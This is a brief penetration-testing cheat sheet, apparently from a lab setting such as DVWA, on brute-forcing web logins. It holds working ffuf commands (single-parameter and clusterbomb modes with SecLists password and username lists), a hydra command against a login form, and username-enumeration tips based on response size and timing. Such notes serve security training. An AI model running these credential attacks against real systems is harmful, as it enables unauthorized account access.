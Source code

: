 **ffuf**
- Save request “copy to file” from burp - Replace “password” param with “FUZZ”
- Run with no filter, determine invalid response size, add `fs <SIZE>` , re-run command
```Python
ffuf -request r.txt -fs <SIZE> -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZ
```
**fuff - fuzz all permutations of multiple parameters (clusterbomb)**
- Modify the request with two keywords, append them to the proper wordlists
```Python
ffuf -request r.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER
```
**hydra**
```Python
hydra -V -L ../wordlists/users.txt -P ../wordlists/pass.txt 192.168.187.133 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: PHPSESSID=XXXXX; security=low"
```
## User Enumeration
- Check if response is different for failed username vs failed password
#### Timing technique:
- Attempt usernames with an extremely long password
	- Does the application take longer to check the password when the username is valid? 
	- Check response times !
